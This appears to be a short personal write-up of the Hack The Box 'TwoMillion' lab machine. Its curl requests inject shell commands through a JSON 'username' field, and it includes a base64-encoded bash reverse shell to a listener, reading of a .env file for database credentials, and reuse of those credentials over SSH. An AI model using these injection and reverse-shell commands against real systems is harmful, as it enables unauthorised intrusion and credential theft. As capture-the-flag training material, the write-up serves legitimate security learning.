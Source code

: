 # Twomillion

Tags: Linux
Level: Easy
Status: Done
Date: November 22, 2023

10.10.1.221
------Nmap

Let's paly with curl
end till here to get id command
----curl -X POST [http://2million.htb/api/v1/admin/vpn/generate](http://2million.htb/api/v1/admin/vpn/generate) --cookie "PHPSESSID=ajkhhins4hlnch7p0v4prdn0q6" --header "Content-Type: application/json" --data '{"username":"test;id;"}'

- -------to get reverse shell in command promt nc-lvp 1234
bash -i >& /dev/tcp/10.10.16.7/1234 0>&1 convert this into base64 to pass into username parameter
curl -X POST [http://2million.htb/api/v1/admin/vpn/generate](http://2million.htb/api/v1/admin/vpn/generate) --cookie "PHPSESSID=ajkhhins4hlnch7p0v4prdn0q6" --header "Content-Type: application/json" --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yLzEyMzQgMD4mMQo= | base64 -d | bash;"}'
- ----admin password
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
- ---get SSH shell using this admin and above password

using cve exploited machine